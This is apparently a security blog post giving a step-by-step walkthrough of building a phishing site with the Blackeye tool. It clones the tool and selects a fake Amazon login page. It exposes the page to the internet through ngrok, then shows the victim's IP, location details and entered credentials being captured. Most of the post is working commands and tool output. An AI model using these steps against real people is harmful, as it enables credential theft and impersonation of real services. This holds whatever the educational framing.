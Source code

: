 +++
title = "Setting up a phishing site [using blackeye tool]"
date = 2024-03-11T20:03:02+02:00
draft = false
tags = ["blackeye"]
categories = ["Phishing"]
ShowToc = true
author = ["connar"]
+++

## Intro
In this post we are going to see how to make a phishing website to then use for other attacks such as the Browser-in-the-Browser attack ( see: [BitB]({{< ref "/posts/BitB" >}} "BitB post") ).  
There are plenty of tools out there to quickly set up a phishing website. For example:  
- Socialphish
- Shell Phish
- Zphisher
- Blackeye
and plenty others, but also platforms like gophish.  
I just happened to be reading something about Blackeye tool, so we'll go with this option.

## Setup of blackeye
Its very quick and easy to set up blackeye. All you have to do is the following:
```sh
┌──(connar㉿kali)-[~/blog/black_eye_tool]
└─$ git clone https://github.com/EricksonAtHome/blackeye.git
Cloning into 'blackeye'...
remote: Enumerating objects: 305, done.
remote: Counting objects: 100% (161/161), done.
remote: Compressing objects: 100% (119/119), done.
remote: Total 305 (delta 68), reused 127 (delta 38), pack-reused 144
Receiving objects: 100% (305/305), 2.68 MiB | 1.73 MiB/s, done.
Resolving deltas: 100% (92/92), done.

┌──(connar㉿kali)-[~/blog/black_eye_tool]
└─$ cd blackeye

┌──(connar㉿kali)-[~/blog/black_eye_tool/blackeye]
└─$ ./blackeye.sh                
     :: Disclaimer: Developers assume no liability and are not    ::
     :: responsible for any misuse or damage caused by BlackEye.  ::
     :: Only use for educational purporses!!                      ::

     ::     BLACKEYE By @EricksonAtHome                           ::

          [01] Instagram      [17] DropBox        [33] eBay               
          [02] Facebook       [18] Line           [34] Amazon         
          [03] Snapchat       [19] Shopify        [35] iCloud          
          [04] Twitter        [20] Messenger      [36] Spotify          
          [05] Github         [21] GitLab         [37] Netflix          
          [06] Google         [22] Twitch         [38] Reddit         
          [07] Origin         [23] MySpace        [39] StackOverflow         
          [08] Yahoo          [24] Badoo          [40] Custom         
          [09] Linkedin       [25] VK                      
          [10] Protonmail     [26] Yandex                  
          [11] Wordpress      [27] devianART               
          [12] Microsoft      [28] Wi-Fi                   
          [13] IGFollowers    [29] PayPal                  
          [14] Pinterest      [30] Steam                                
          [15] Apple ID       [31] Tiktok                              
          [16] Verizon        [32] Playstation                               
                                                                                                                                                                                                                                            
 ┌─[ Choose an option:]─[~]
 └──╼ ~ 34

    1.Ngrok
    2.Localtunnel
```
To continue, we need to set Ngrok server. We can download the binary from the ngrok website. Afterwards, we need to do the following steps:
```sh
└─$ sudo tar xvzf ngrok-v3-stable-linux-amd64.tgz 
└─$ sudo mv ngrok /usr/local/bin
```
The final step is to set your auth token which can be found by making an account on the ngrok dashboard. There, you will find your auth token and then can do the last step, which is:
```sh
└─$ ngrok config add-authtoken [your_auth_token]
```

We can now switch back to blackeye and choose option 1:
```sh
─[ Choose the tunneling method:]─[~]
 └──╼ ~ 1

[*] Starting php server...
[*] Starting ngrok server...
[*] Send this link to the Victim: 
[*] Use shortened link instead: 


[*] Waiting victim open the link ...
```
To get the link, we have to run the ngrok binary we previously downloaded. The port it runs on is 5555 by default and can be found inside its code (and edited of course to listen to some other port like 8080):
```sh
└─$ ngrok http 5555

ngrok                                                                                               (Ctrl+C to quit)
                                                                                                                    
Take our ngrok in production survey! https://forms.gle/[redacted]                                           
                                                                                                                    
Session Status                online                                                                                
Account                       [redacted] (Plan: Free)                                                              
Version                       3.8.0                                                                                 
Region                        [redacted] ([redacted])                                                                           
Latency                       362ms                                                                                 
Web Interface                 http://127.0.0.1:4040                                                                 
Forwarding                    https://[redacted].ngrok-free.app -> http://localhost:5555                    
                                                                                                                    
Connections                   ttl     opn     rt1     rt5     p50     p90                                           
                              0       0       0.00    0.00    0.00    0.00
```

Now that the server is running our phishing amazon site, let's head back to blackeye:
```sh
[*] Waiting victim open the link ...

[*] IP Found!
[*] IPv6: [redacted]
[*] User-Agent:  [redacted]
[*] Country: [redacted]
[*] Region: [redacted]
[*] City: [redacted]
[*] Postal: [redacted]
[*] Location: [redacted]
[*] Maps: [redacted]
[*] ISP: [redacted]
[*] Timezone: [redacted]
[*] Saved: amazon/saved.ip.txt
 
[*] Waiting credentials ...
```

Visiting the url provided in the running ngrok instance, we are met with the following website:  
![fake amazon website](/posts/blackeye_imgs/amazon_fake.png)  

We provide some rogue credentials and we have our result:
![stolen creds](/posts/blackeye_imgs/get_credentials.png)  